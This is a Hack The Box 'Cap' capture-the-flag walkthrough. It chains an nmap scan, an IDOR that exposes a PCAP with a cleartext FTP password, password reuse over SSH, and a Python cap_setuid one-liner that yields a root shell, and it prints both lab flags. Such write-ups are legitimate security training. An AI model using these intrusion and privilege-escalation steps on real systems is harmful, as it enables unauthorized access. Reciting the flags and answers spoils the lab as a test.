


# 🐧 Cap — HTB


> **TL;DR** — FTP, SSH and a Gunicorn web app are open → the app's **Security Snapshot** feature stores PCAPs at `/data/<id>` with no access control (**IDOR**) → scan `0` contains a cleartext **FTP** login for `nathan` → the same password works over **SSH** → `/usr/bin/python3.8` has the `cap_setuid` **capability**, so a one-liner `os.setuid(0)` gives a root shell.

**Tags:** `IDOR` · `PCAP analysis` · `cleartext credentials` · `FTP` · `password reuse` · `Linux capabilities` · `cap_setuid` · `GTFOBins`

---

## 1. How many TCP ports are open?

Start with a full-range service scan:

```bash
nmap -sV -p- 10.129.102.74
```

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Gunicorn
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

> **Answer:** `3`

## 2. After running a "Security Snapshot", the browser is redirected to a path of the format `/[something]/[id]`, where `[id]` represents the id number of the scan. What is the `[something]`?

Running **Security Snapshot (5 Second PCAP + Analysis)** in the web app redirects to:

```
http://10.129.102.74/data/1
```

> **Answer:** `data`

## 3. Are you able to get to other users' scans?

Changing the number in the URL shows a different scan's results, and its PCAP can be downloaded too. The differing packet counts/sizes already show it's different data — a classic **IDOR**.



> **Answer:** `yes`

## 4. What is the ID of the PCAP file that contains sensitive data?

The scan IDs increment with each snapshot, and the ones I generated only held my own traffic. Since my first scan was `1`, I tried `0` — a capture taken before mine. It contained an FTP session with cleartext credentials:



```
nathan : Buck3tH4TF0RM3!
```

> **Answer:** `0`

## 5. Which application layer protocol in the pcap file can the sensitive data be found in?

The captured session is with the `vsftpd` server — FTP sends `USER`/`PASS` in cleartext.

> **Answer:** `ftp`

## 6. We've managed to collect nathan's FTP password. On what other service does this password work?

Nmap showed SSH open as well, and the password is reused there:

```bash
ssh nathan@10.129.102.74
```

> **Answer:** `ssh`

## 7. Submit the flag located in the nathan user's home directory.

```bash
cat ~/user.txt
```

> **Answer:** `230683820f723445a9c07a54a8978fd4`

## 8. What is the full path to the binary on this machine that has special capabilities that can be abused to obtain root privileges?

I transferred **linpeas** to the box and ran it. The capabilities section lists:

```
Files with capabilities (limited to 50):
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```

The same can be checked manually with `getcap -r / 2>/dev/null`. `cap_setuid` on an interpreter is the one that stands out: it lets the process change its UID to `0` without being SUID.

> **Answer:** `/usr/bin/python3.8`

## 9. Submit the flag located in root's home directory.

GTFOBins has a **Capabilities** entry for Python — set the UID to root and exec a shell:

```bash
python3.8 -c 'import os; os.setuid(0); os.execl("/bin/sh", "sh")'
```

```
# id
uid=0(root) gid=1001(nathan) groups=1001(nathan)
# cat /root/root.txt
240ea0b3a03cd73a39249416770d8ecc
```

> **Answer:** `240ea0b3a03cd73a39249416770d8ecc`

---

## 🏁 Flags

| Flag | Value |
|---|---|
| **User** (`/home/nathan/user.txt`) | `230683820f723445a9c07a54a8978fd4` |
| **Root** (`/root/root.txt`) | `240ea0b3a03cd73a39249416770d8ecc` |
